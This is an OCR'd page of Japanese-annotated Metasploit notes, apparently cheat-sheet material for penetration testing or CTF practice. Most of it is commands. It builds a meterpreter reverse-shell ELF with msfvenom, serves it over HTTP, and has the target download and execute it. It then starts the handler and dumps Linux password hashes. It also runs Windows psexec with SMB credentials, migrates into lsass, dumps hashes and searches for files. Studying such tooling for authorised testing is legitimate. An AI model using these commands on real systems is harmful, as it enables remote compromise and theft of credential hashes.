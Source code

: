 ```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ローカルIP] LPORT=8765 -f elf > rev_shellx86.elf

# ローカルPCで起動
python -m http.server 9000
# ターゲットPCで取得
wget http://[ローカルIP]:9000/rev_shellx86.elf
chmod +x rev_shellx86.elf
./rev_shellx86.elf

# ローカル
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
run
set LHOST [ローカルIP]
set LPORT 8765
# ターゲットへ接続
run
# ハッシュダンプ取得
run post/linux/gather/hashdump
```

## Meterpreter

- メモリ上で起動する。IDSで検出されづらい。最近のIDSは検出できる。

```bash
msfvenom --list payloads | grep meterpreter

msfconsole
use exploit/windows/smb/psexec
set RHOSTS [target IP]
set SMBUSer [target user]
set SMBPass [target pw]
exploit

sysinfo

# 共有列挙
back
use post/windows/gather/enum_shares
set SESSION 1
run

# ハッシュ取得
sessions -i 1
getpid
ps | grep lsass
migrate [lsass PID]
hashdump

# ファイル検索
search -f [対象ファイル名]
```
